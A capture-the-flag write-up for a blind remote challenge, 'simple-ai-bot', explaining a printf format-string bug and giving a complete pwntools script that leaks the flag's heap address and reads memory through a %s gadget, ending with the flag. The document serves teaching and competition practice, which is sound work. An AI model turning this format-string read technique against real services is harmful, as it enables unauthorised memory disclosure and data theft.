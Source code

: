 ## Description
With everything and everyone going AI today, we also are developing our own AI bot. It is a first draft and it still requires some work, but feel free to test it out.

> Connection:
> 
> nc simple-ai-bot.ctf.zone 4242

## Solution

This is a blind remote challenge (no challenge file given). We can try and spam strings but it only scans your input up until a certain length so no overflow. We do however have a printf vulnerability so we can read values off of the stack. When we enter `flag`, it also gives us the address of the flag, i.e `0x60811ca4d040` meaning it's on the heap and it's a 64bit system.
We can then use the printf vulnerability to read the value at that address to get the flag.

```python
from pwn import *

p = remote('simple-ai-bot.ctf.zone', 4242)
context.update(arch='amd64', os='linux')

def get_flag():
    # # First leak the flag address
    p.sendlineafter('>', 'flag')
    line = p.recvline().strip().decode()
    flag_leak = int(line.split()[-1], 16)
    log.info(f"Flag address: {hex(flag_leak)}")
    return flag_leak

def find_leak_point():
    log.info('Finding leak point')
    for i in range(1, 200):
        payload = b"%" + str(i).encode() + b"$pAAAAAAAABBBBBBBB"
        r = exec_payload(payload)
        if b'0x42424242424242' in r:
            return i

def exec_payload(payload):
    if b'\n' in payload:
        return ""
    p.sendlineafter('>', b"BODO" + payload)
    p.recvuntil(b"BODO")
    data = p.recvline().split()[-1]
    log.info("%s => %s" % (repr(payload), repr(data)))
    return data

# read gadget
def leak(addr):
    addr &= (2**64 - 1)
    # 8 bytes payload | 8 bytes address to read from
    payload = b"%" + str(leak_point).encode() + b"$sXXXXXXXX" + p64(addr)
    r = exec_payload(payload)
    if r == b'':
        return b''
    r = r[:r.index(b'XXXXXXXX')]
    if r == b'(null)':
        return b'\x00'
    else:
        return r + b'\x00'

flag_addr = get_flag()
leak_point = 8
# leak_point = find_leak_point()
log.info(f"Found leak at {leak_point}")
flag = leak(flag_addr)
log.info(f"Flag: {flag}")
```

Flag: `flag{bee82de11dda03908f3f3d41e2795cdf}`

Solved by: benkyou
